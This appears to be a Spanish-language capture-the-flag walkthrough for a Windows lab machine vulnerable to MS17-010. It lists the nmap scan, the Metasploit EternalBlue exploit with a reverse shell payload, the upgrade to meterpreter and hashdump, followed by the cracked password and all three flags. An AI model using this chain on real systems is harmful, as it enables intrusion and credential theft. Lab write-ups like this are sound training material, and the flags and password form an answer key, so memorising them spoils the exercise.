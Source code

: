 ## Reconocimiento

Escanea la máquina. (Si no está seguro de cómo abordar esto, le recomiendo que visite la sala de Nmap )
¿Cuántos puertos están abiertos con un número de puerto inferior a 1000?

    Command: nmap -sV -vv --script vuln TARGET_IP
    Solo 3 puertos son de los inferiores a  1000 el resto es superior


¿A qué es vulnerable esta máquina? (Respuesta en forma de: ms ?? - ???, ex: ms08-067)
 
    ms17-010

## Acceder

Iniciar Metasploit

	msfconsole
 
Encuentra el código de explotación que ejecutaremos contra la máquina. ¿Cuál es la ruta completa del código? (Ej: explotar / ........)

	Search eternalblue
 
    exploit/windows/smb/ms17_010_eternalblue

Muestre opciones y establezca el valor requerido. ¿Cuál es el nombre de este valor? (Todo en mayúsculas para la presentación)
Show options
 
    RHOSTS

Por lo general, estaría bien ejecutar este exploit como está; sin embargo, por el bien de aprender, debe hacer una cosa 
más antes de explotar el objetivo. Ingrese el siguiente comando y presione enter:

    set payload windows/x64/shell/reverse_tcp

## Escalar

Si aún no lo ha hecho, ponga en segundo plano el shell obtenido anteriormente (CTRL + Z). Investigue en línea cómo 
convertir un shell en un shell meterpreter en metasploit. ¿Cuál es el nombre del módulo de publicación que usaremos? 
(Ruta exacta, similar al exploit que seleccionamos previamente) 
 
    post/multi/manage/shell_to_meterpreter 

Seleccione esto (use MODULE_PATH). Mostrar opciones, ¿qué opción debemos cambiar?

    SESSION

## Agrietamiento

Dentro de nuestro shell meterpreter elevado, ejecute el comando 'hashdump'. Esto volcará todas las contraseñas en la 
máquina siempre que tengamos los privilegios correctos para hacerlo. ¿Cuál es el nombre del usuario no predeterminado? 
 
    jon

Copie este hash de contraseña en un archivo e investigue cómo descifrarlo. ¿Cuál es la contraseña descifrada?

    alqfna22

## ¡Encuentra banderas!

Flag1? Esta bandera se puede encontrar en la raíz del sistema. 
 
    flag{access_the_machine}

Flag2? Esta bandera se puede encontrar en la ubicación donde se almacenan las contraseñas dentro de Windows.
Errata: a Windows realmente no le gusta la ubicación de esta bandera y ocasionalmente puede eliminarla. En algunos 
casos, puede ser necesario terminar / reiniciar la máquina y volver a ejecutar el exploit para encontrar esta bandera. 
Esto es relativamente raro, sin embargo, puede suceder. 
 
    flag{sam_database_elevated_access}

flag3? Esta bandera se puede encontrar en una excelente ubicación para saquear. Después de todo, los administradores 
suelen tener cosas bastante interesantes guardadas. 

    flag{admin_documents_can_be_valuable}

